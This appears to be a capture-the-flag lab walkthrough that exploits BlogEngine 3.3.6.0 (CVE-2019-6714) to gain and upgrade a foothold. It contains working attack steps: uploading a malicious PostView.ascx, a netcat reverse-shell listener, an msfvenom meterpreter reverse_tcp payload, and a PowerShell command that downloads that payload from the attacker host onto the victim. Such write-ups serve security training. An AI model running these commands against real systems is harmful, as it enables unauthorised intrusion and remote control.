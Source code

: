 BlobEngine Version: 3.3.6.0

> Use the [exploit database archive](https://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system. 

[CVE2019-6714](https://www.exploit-db.com/exploits/46353)

>Using the public exploit, gain initial access to the server.
>
>Who is the webserver running as?

<ol>
  <li>Read the exploit information from the CVE database</li>
  <li>Modify the exploit to use your IP then save it as PostView.ascx</li>
  <li>Go to: http://10.10.121.14/admin/app/editor/editpost.cshtml</li>
  <li>Click the file upload icon</li>
  <li>Upload PostView.ascx</li>
  <li>Set up a reverse listener using the following command: <br>
nc –nlvp 4445</li>
  <li>Trigger the exploit at: http://10.10.121.14/?theme=../../App_Data/files</li>
</ol> 

![reverseshell](screenshots/reverseshell.png)

Run whoami to get app account

![servicerunningas](screenshots/servicerunningas.png)

iis apppool\blog

## Task 4 - Windows Privilege Escalation
>Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. If you don't know how to do this, I suggest checking out the Metasploit module!
>
>Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!

<ol>
    <li>Craft the msfvenom command: <br>
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.73.48 LPORT=445 -f exe > reverse_shell.exe
    </li>
    <li>Start a web server on local maching to transfer file: <br>
    python -m http.server </li>
    <li>Run the following in existing reverse shell to upload to victim machine: <br>
    powershell -c "Invoke-WebRequest -Uri 'http://10.4.73.48:8000/reverse_shell.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'"</li>
    <li>Navigate to "c:\windows\temp"</li>
    <li>Run "dir" to check the shell is there</li>
</ol>
